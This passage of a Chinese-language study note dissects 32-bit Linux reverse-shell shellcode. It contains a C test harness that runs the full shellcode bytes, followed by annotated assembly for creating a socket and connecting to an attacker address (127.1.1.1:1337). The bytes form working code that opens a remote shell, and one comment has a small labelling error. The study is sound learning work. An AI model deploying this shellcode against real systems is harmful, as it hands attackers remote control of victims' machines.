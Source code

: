 ```python
* 41:   68 2f 62 69 6e       push   0x6e69622f
* 46:   89 e3                mov    ebx,esp
* 48:   cd 80                int    0x80
*/

#include <stdio.h>

unsigned char shellcode[] = \
"\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89\xe1\xcd\x80\x92\xb0\x66\x68\x7f\x01\x01\x01\x66\x68\x05\x39\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x41\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";
main()
{
printf("Shellcode Length:  %d\n", sizeof(shellcode) - 1);
int (*ret)() = (int(*)())shellcode;
ret();
}
```

我们在此对其ShellCode的构造进行一下学习

## 学习

### 1. **创建 Socket**

```asm
push   0x66        ; 将 0x66 (socketcall 的系统调用号) 压栈
pop    eax         ; 将 0x66 弹出到 eax
push   0x1         ; 将 0x1 (SYS_SOCKET) 压栈
pop    ebx         ; 将 0x1 弹出到 ebx
xor    edx, edx    ; edx = 0
push   edx         ; 将 0 (protocol) 压栈
push   ebx         ; 将 1 (type: SOCK_STREAM) 压栈
push   0x2         ; 将 2 (domain: AF_INET) 压栈
mov    ecx, esp    ; ecx 指向栈顶，即 socket 的参数
int    0x80        ; 调用 socketcall，创建 socket
xchg   edx, eax    ; 将 socket 的文件描述符保存到 edx
```

**功能**：

* 创建一个 TCP socket，文件描述符存储在 `edx`​ 中。

‍

### 2. **连接到攻击者的 IP 和端口**

```asm
mov    al, 0x66    ; eax = 0x66 (socketcall 的系统调用号)
push   0x101017f   ; 将 IP 地址 127.1.1.1 压栈
pushw  0x3905      ; 将端口号 1337 压栈
inc    ebx         ; ebx = 2 (SYS_BIND)
push   bx          ; 将 2 (AF_INET) 压栈
mov    ecx, esp    ; ecx 指向栈顶，即 sockaddr_in 结构
push   0x10        ; 将 16 (addrlen) 压栈
push   ecx         ; 将 sockaddr_in 结构的指针压栈
push   edx         ; 将 socket 的文件描述符压栈
mov    ecx, esp    ; ecx 指向栈顶，即 connect 的参数
inc    ebx         ; ebx = 3 (SYS_CONNECT)
int    0x80        ; 调用 socketcall，连接到攻击者的 IP 和端口
```
